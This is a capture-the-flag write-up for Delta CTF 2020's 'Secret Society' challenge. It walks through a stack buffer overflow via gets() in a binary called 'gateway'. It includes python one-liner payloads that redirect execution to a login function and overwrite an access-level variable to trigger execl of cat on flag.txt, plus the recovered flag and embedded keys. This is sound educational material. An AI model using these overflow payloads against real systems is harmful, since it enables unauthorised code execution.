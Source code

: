 # Delta CTF 2020: The Secret Society.


> Find and submit the {flag}
>
> (./file/gateway)

## Write-up

1. You are given an executable file called `gateway`. When we try running the executable, we get the output as follows.

```bash
$ ./gateway
What's your name? (max 63)
Name
Hello, Name, you are not one of us.
```

The binary promts for a name, and prints the name as output.

2. When we enter a long string as input, we observe a segmentation fault.

```bash
$ ./gateway
What's your name? (max 63)
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, you are not one of us.
Segmentation fault (core dumped)
```

This indicates that there might be a buffer overflow occurring.

3. We can confirm that by running `readelf`, which shows us the sections that are there in the executable.

```bash
$ readelf -s gateway
Symbol table '.dynsym' contains 10 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5 (2)
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strcmp@GLIBC_2.2.5 (2)
     5: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
     6: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@GLIBC_2.2.5 (2)
     7: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fflush@GLIBC_2.2.5 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execl@GLIBC_2.2.5 (2)
     9: 0000000000404058     8 OBJECT  GLOBAL DEFAULT   26 stdout@GLIBC_2.2.5 (2)

Symbol table '.symtab' contains 70 entries:
    51: 00000000004011d6   288 FUNC    GLOBAL DEFAULT   15 login
    52: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@@GLIBC_2.2.5
    53: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    54: 0000000000404048     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strcmp@@GLIBC_2.2.5
    56: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    57: 0000000000404050     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
    58: 0000000000402000     4 OBJECT  GLOBAL DEFAULT   17 _IO_stdin_used
    59: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.2.5
    60: 0000000000401360   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    61: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fflush@@GLIBC_2.2.5
    62: 0000000000404068     0 NOTYPE  GLOBAL DEFAULT   26 _end
    63: 0000000000401120     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_static_pie
    64: 00000000004010f0    47 FUNC    GLOBAL DEFAULT   15 _start
    65: 0000000000404058     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    66: 00000000004012f6    94 FUNC    GLOBAL DEFAULT   15 main
    67: 0000000000404058     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    68: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execl@@GLIBC_2.2.5
    69: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
```

We can see that it calls the function `gets`, which is a very vulnerable function to get input in C. Therefore, it is confirmed that a buffer overflow is occurring here.

4. By running `strings`, we can see the strings are present in the executable.

```bash
$ strings gateway
Codename (max 15): 
Access Key (max 31): 
novice
uQ3V7CUnmCSUQDDkAIPQVqAATh6rzxW
master
v7WETIEAoWSq0m6FDZyOWrf4ngfK3ku
flag.txt
/bin/cat
Welcome, %s.
Your access level is %d.
What's your name? (max 63)
Hello, %s, you are not one of us.
```

We see strings that did not appear when we ran the executable. We can also see from the output of `readelf` that there's a function other than `main`, called `login`, whose address is `4011d6`.

5. The maximum length that the name can be is given as 63, hence we can find the point of overflow by starting at 64 and incrementing the length of input by 2 and analyzing the output of `dmesg | tail` to see when the return address is overwritten.

```bash
$ python -c "print('A'*73)" | ./gateway
What's your name? (max 63)
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, you are not one of us.
Segmentation fault (core dumped)

$ dmesg | tail
[31057.511956] gateway[12245]: segfault at 7f34f6600041 ip 00007f34f6600041 sp 00007ffe60992e50 error 15 in libc-2.30.so[7f34f65e1000+25000]
```

We can see that at a length of 73, the last A has appeared at the last byte of the instruction pointer, with the hex value of `0x41`.

6. By giving the address of the `login` function in little endian as input, we can redirect the flow of execution.

```bash
$ python -c 'print("A"*72+"\xd6\x11\x40\x00\x00")' | ./gateway
What's your name? (max 63)
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, you are not one of us.
Codename (max 15): Access Key (max 31): Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�.
Your access level is 255.
Segmentation fault (core dumped)
```

7. When we enter a long string as input for the `login` function as well, we see that the access level displayed suddenly jumps to a large number.

```bash
$ python -c 'print("A"*72+"\xd6\x11\x40\x00\x00\n"+"B"*100)' | ./gateway
What's your name? (max 63)
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, you are not one of us.
Codename (max 15): Access Key (max 31): Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.
Your access level is 1111638594.
Segmentation fault (core dumped)
```

This indicates that there is a buffer overflow occurring here too, which causes the input to overflow and overwrite the local variable where the access level is stored.

8. Disassembling the executable using `objdump`, we get the following assembly code for the function `login`. Specifically observe the following lines.

```bash
$ objdump -d gateway
00000000004011d6 <login>:
  4011f5:       e8 a6 fe ff ff          callq  4010a0 <printf@plt>
  401206:       e8 b5 fe ff ff          callq  4010c0 <gets@plt>
  401217:       e8 84 fe ff ff          callq  4010a0 <printf@plt>
  401228:       e8 93 fe ff ff          callq  4010c0 <gets@plt>

  40123b:       e8 70 fe ff ff          callq  4010b0 <strcmp@plt>
  401252:       e8 59 fe ff ff          callq  4010b0 <strcmp@plt>
  401272:       e8 39 fe ff ff          callq  4010b0 <strcmp@plt>
  401289:       e8 22 fe ff ff          callq  4010b0 <strcmp@plt>

  401292:       c7 45 fc 50 00 00 00    movl   $0x50,-0x4(%rbp)
  401299:       83 7d fc 2f             cmpl   $0x2f,-0x4(%rbp)
  40129d:       7f 26                   jg     4012c5 <login+0xef>

  4012be:       e8 1d fe ff ff          callq  4010e0 <execl@plt>
  
  4012c5:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  4012d8:       e8 c3 fd ff ff          callq  4010a0 <printf@plt>
  4012dd:       8b 45 fc                mov    -0x4(%rbp),%eax
  4012ee:       e8 ad fd ff ff          callq  4010a0 <printf@plt>

  4012f4:       c9                      leaveq 
  4012f5:       c3                      retq   
```

We can see that the function performs a few string compares, but those are not of any consequence. The important operation is that in line `401299` it compares a value on the stack to the hex value `0x2f = 47`, and if it is greater the control jumps to instruction `4012c5`, which bypasses a call to `execl`. As this `execl` is most likely to be what outputs the flag, we need to overflow the stack value such that it is not greater than 47.

9. Passing input to the executable such that the level value is overwritten by the hex value of B, we start at 16 characters and increment the length of input by 2 until the level value gets overwritten.

```bash
$ python -c 'print("A"*72+"\xd6\x11\x40\x00\x00\n"+"B"*28)' | ./gateway
What's your name? (max 63)
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, you are not one of us.
cat: flag.txt: No such file or directory
```

Therefore, we fail the check and the `execl` call is executed, which tries to print the contents of a file called `flag.txt`.

10. When entering this input on the server, we get the output as follows.

```bash
$ python -c 'print("A"*72+"\xd6\x11\x40\x00\x00\n"+"B"*28)' | ./gateway
What's your name? (max 63)
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, you are not one of us.
dctf{i_h4v3_pr0v3n_mys3lf_w0rthy}
```

Therefore, we find that the flag is dctf{i_h4v3_pr0v3n_mys3lf_w0rthy}.